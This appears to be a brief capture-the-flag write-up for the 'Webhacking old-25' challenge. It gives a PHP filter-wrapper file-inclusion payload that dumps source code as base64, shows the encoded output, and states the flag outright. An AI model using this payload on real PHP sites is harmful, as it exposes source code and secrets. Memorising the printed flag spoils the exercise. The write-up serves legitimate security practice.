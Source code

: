 ```yaml
---
layout: default
title: old-25
---
```


# Webhacking old-25 Solution

insert this payload:
`php://filter/convert.base64-encode/resource=flag`

and then you will receive the encoded flag:
```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```


**Flag:** ***`FLAG{this_is_your_first_flag}`*** 

